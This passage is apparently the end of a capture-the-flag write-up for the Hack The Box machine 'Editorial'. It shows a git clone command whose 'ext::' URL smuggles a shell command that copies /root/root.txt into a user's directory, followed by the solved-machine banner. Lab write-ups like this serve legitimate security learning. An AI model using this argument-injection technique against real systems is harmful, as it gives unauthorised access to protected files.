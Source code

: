 ```terminal
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
	git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
	  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /root/root.txt% >% /home/prod/root.txt new_changes
	  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.
Please make sure you have the correct access rights and the repository exists.'
```
```terminal
prod@editorial:~$ cat root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/608" target="_blank">***Litio7 has successfully solved Editorial from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
